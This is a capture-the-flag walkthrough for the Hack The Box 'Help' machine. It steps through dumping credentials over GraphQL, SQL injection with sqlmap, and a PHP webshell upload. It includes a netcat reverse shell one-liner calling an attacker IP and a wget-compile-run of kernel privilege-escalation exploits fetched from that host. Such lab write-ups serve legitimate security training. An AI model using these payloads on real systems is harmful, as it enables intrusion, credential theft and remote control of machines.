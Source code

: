 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

- **Initial Access**: GraphQL → HelpDeskZ Authenticated SQLi / Unauth File Upload
- **Privilege Escalation**: Kernel Exploit (CVE-2017-16995, etc.)

---

## 🔍 Recon

### 🔎 Full TCP Scan
```bash
nmap -sT -p- --min-rate 10000 -oA nmap/help_tcp 10.10.10.121
```

### 🔍 Service Detection
```bash
nmap -sCV -p 22,80,3000 -oA nmap/help_svc 10.10.10.121
```

---

## 🌐 Web Recon – Port 3000 (GraphQL)

### 📊 Discover Schema
```bash
curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" \
-d '{ "query": "{ __schema { queryType { name, fields { name, description } } } }" }' | jq
```

### 📚 View User Type Fields
```bash
curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" \
-d '{ "query": "{ __type(name: \"User\") { name fields { name } } }" }' | jq
```

### 🔐 Dump User Credentials
```bash
curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" \
-d '{ "query": "{ user { username password } }" }' | jq
```

- **Username**: `helpme@helpme.com`  
- **Password (MD5)**: `5d3c93182bb20f07b994a7f617e99cff`  
- **Cracked**: `godhelpmeplz`

---

## 🌐 Web Recon – Port 80 [(Apache)](HTTP.md)

### 🧭 Directory Brute Force
```bash
gobuster -u http://10.10.10.121 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50
```

### 🔍 Discover `/support` (HelpDeskZ)
Login with:
- **Email**: `helpme@helpme.com`
- **Password**: `godhelpmeplz`

---

## 🐚 Shell Access – Method 1: SQLi via Ticket Attachment

### 🔎 Identify SQLi
Modify param in:
```
http://10.10.10.121/support/?v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=1&param[]=6
```

Try:
- `...6 AND 1=1-- -` → ✅
- `...6 AND 1=2-- -` → ❌

### ⚙️ Dump with sqlmap
1. Save request in Burp (e.g., `ticket_attachment.request`)
2. Run:
```bash
sqlmap -r ticket_attachment.request --level 5 --risk 3 -p param[] --dump
```

### 🔐 Extracted Creds
- **Username**: `admin`
- **Password**: `Welcome1`

### 🔑 [SSH](SSH) as help
```bash
ssh help@10.10.10.121
# Password: Welcome1
```

---

## 🐚 Shell Access – Method 2: File Upload Exploit

### ⚙️ Upload Webshell
Use:
```php
<?php system($_REQUEST['cmd']); ?>
```

### 🔍 Brute Upload Location (based on time + md5)
```python
# Save as exploit.py
./exploit.py http://10.10.10.121/support/uploads/tickets/ cmd.php
```

### 🧪 Webshell Test
```bash
curl http://10.10.10.121/support/uploads/tickets/<shell>.php?cmd=id
```

### 🎯 Reverse Shell Payload
```bash
curl 'http://10.10.10.121/support/uploads/tickets/<shell>.php?cmd=rm+/tmp/f;mkfifo+/tmp/f;cat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.4+443+>/tmp/f'
nc -lnvp 443
```

---

## 🧬 Shell Upgrade
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo
fg
reset
# Enter: screen
export TERM=screen
```

---

## ⬆️ Privilege Escalation (help → root)

### 📌 Kernel Version
```bash
uname -a
# 4.4.0-116-generic
```

### 🧠 Use Exploits (CVE-2017-16995)
- Move to `/dev/shm`
- Start web server:
```bash
python3 -m http.server 80
```

- On target:
```bash
wget http://10.10.14.4/44298.c
gcc -o a 44298.c
./a
```

Or:

```bash
wget http://10.10.14.4/45010.c
gcc -o a 45010.c
./a
```

Or:

```bash
wget http://10.10.14.4/exploit.sh
chmod +x exploit.sh
./exploit.sh
```

---

## 🏁 Final Flags

### 🧑‍💻 User Flag
```bash
cat /home/help/user.txt
```

### 👑 Root Flag
```bash
cat /root/root.txt
```